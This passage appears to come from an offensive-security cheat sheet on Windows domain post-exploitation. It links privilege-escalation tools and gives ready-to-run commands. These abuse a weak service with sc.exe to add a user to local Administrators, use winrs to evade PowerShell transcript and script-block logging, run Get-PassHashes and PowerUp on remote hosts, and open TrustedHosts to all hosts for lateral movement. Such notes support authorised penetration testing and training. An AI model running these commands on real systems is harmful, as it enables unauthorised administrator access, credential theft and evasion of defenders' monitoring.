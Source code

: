 ```powershell
Find-DomainUserLocation –Stealth
```

## Local PrivEsc

PowerUp: https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc  
BeRoot: https://github.com/AlessandroZ/BeRoot  
Privesc: https://github.com/enjoiz/Privesc  
winPEAS: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS  

```powershell
# Run all checks from :
# PowerUp
Invoke-AllChecks
# BeRoot
beRoot.exe
# Privesc:
Invoke-PrivEsc
# PEASS-ng:
winPEASx64.exe

# Add current user to admins group
# PowerUp
# Get abuse help: `help Invoke-ServiceAbuse -examples
# Unquoted service path example:
Invoke-ServiceAbuse -Name '<service name>' -User <domain>\<username>

# Manual modifiable service path abuse
# https://juggernaut-sec.com/weak-service-permissions-windows-privilege-escalation/
sc.exe qc <service name>
sc.exe config <service name> binPath="net localgroup Administrators <domain>\<user> /add"
sc.exe stop <service name>
sc.exe start <service name>
```

## Remote Access Options

`winrs` can be used if we have local admin on a machine or if we have a HTTP ticket in our session:  
Can be used to  bypass PSRemoting's system-wide transcripts and script block logging.  

```powershell
# If we have local admin access, this command should run on the target host
winrs -r:<target-hostname> "hostname"
# Interactive shell:
winrs -r:<target-hostname> cmd
# Specifying credentials:
winrs -r :<target-hostname> -u:hostname\user -p:password cmd
```

Powershell Remoting:  

```powershell
# Stateful sessions/commands
$sess = New-PSSession -ComputerName Server1
Enter-PSSession -Session $sess
Invoke-Command -Session $sess -FilePath .\PowerUp.ps1
Invoke-Command -Session $sess -ScriptBlock {whoami}
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName domain.local
# can try adding "-Credential username/password" if you have creds for the remote machine

# Connect with an IP address
# Set WSMan settings from an elevated shell
Set-Item WSMan:\localhost\Client\TrustedHosts * -Force
# PSRemote (a shell with NTLM has is required, not AES256 keys)
Enter-PSSession -ComputerName 192.168.102.1 -Authentication NegotiateWithImplicitCredential
```